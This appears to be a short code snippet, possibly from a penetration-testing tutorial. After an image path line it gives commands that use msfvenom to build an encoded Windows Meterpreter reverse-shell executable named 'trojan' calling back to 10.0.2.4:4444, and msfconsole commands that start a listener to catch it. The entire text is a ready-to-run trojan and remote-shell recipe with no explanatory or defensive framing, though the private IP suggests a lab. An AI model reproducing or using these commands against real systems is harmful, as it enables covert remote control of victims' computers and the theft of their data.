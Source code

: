 msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=4444 -e x86/shikata_ga_nai -f exe -o trojan

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.2.4
exploit -j

